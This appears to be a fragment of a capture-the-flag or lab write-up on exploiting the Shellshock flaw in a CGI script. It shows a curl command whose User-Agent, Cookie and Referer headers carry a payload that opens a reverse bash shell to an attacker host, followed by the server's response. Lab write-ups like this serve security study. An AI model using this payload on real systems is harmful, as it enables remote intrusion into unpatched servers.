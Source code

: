```bash
---------------------------------------------------------------------------
+ 1 host(s) tested
```

<br>

![image](https://github.com/user-attachments/assets/0602d513-8c7d-4fcc-bb0a-766bf9c972fb)

<br>




<h2 align="center">$$\textcolor{white}{\textnormal{http://TargetIP/cgi-bin/test.cgi}}$$</h2>

![image](https://github.com/user-attachments/assets/7fc3850b-f3d3-420a-b7af-e41442aba50b)

<br>

<h2 align="center">$$\textcolor{white}{\textnormal{Metasploit}}$$</h2>


```bash
:~# curl http://10.10.66.29/cgi-bin/test.cgi \
> -H "User-Agent: $PWN" \
> -H "Cookie: $PWN" \
> -H "Referer: $PWN" -v
*   Trying 10.10.66.29:80...
* TCP_NODELAY set
* Connected to 10.10.66.29 (10.10.66.29) port 80 (#0)
> GET /cgi-bin/test.cgi HTTP/1.1
> Host: 10.10.66.29
> Accept: */*
> User-Agent: () { :;}; /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.135.92/4444 0>&1 &'
> Cookie: () { :;}; /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.135.92/4444 0>&1 &'
> Referer: () { :;}; /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.135.92/4444 0>&1 &'
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 500 Internal Server Error
< Date: Fri, 09 May 2025 23:23:23 GMT
< Server: Apache/2.4.7 (Ubuntu)
< Content-Length: 608
< Connection: close
< Content-Type: text/html; charset=iso-8859-1
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at 
 webmaster@localhost to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.4.7 (Ubuntu) Server at TargetIP Port 80</address>
</body></html>
* Closing connection 0
```
